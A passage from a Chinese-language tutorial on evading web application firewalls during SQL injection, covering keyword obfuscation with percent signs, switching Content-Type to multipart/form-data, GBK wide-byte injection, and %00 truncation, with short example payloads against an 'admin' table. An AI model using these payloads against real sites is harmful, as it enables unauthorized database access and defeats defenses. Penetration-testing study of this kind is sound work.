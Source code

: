 ```
?id=1 union select 1, 2, 3 from admin?id=1union select 1, 2, 3 from admi
```

 绕过 payload：

```
?id=1 union s%e%lect 1, 2, 3 from admin?id=1union s%e%lect 1, 2, 3 from admin?id=1union s%e%lect 1, 2, 3 from admin?id=1union s%e%lect 1, 2, 3 from admin
```

### 11.   协议未覆盖绕过

以下四种常见的 content-type 类型：

> Content-Type:multipart/form-data;
> 
> Content-Type:application/x-www-form-urlencoded
> 
> Content-Type: text/xml
> 
> Content-Type: application/json

部分 WAF 可能只对一种 content-type 类型增加了检测规则，可以尝试互相替换尝试去绕过 WAF 过滤机制。

例如使用 multipart/form-data 进行绕过。

正常请求：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwwSZHlUb0Zp5OSvpHzYia30aAojBC1wVX6kpHiaoRxDyfdjctQ1CjzECw/640?wx_fmt=jpeg)

转换为 multipart/form-data 类型进行绕过：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwj8w6lPzUkxR8b9hJxxnChrn7aJhBTWACBY16x1pWDMgKWTVZrWHIEA/640?wx_fmt=jpeg)

### 12.   宽字节绕过

宽字节注入是因为使用了 GBK 编码。为了防止 sql 注入，提交的单引号 (%27) 会进行转义处理，即在单引号前加上斜杠(%5C%27)。

正常 payload：

```
?id=1'and 1=1--+ 
```

绕过 payload：

```
?id=1%df%27and 1=1--+
```

%df%27 经过转义后会变成 %df%5C%27,%df%5c 会被识别为一个新的字节，而 %27 则被当做单引号，成功实现了语句闭合。

### 13.   %00 截断

部分 WAF 在解析参数的时候当遇到 %00 时，就会认为参数读取已结束，这样就会只对部分内容进行了过滤检测。

正常 payload：
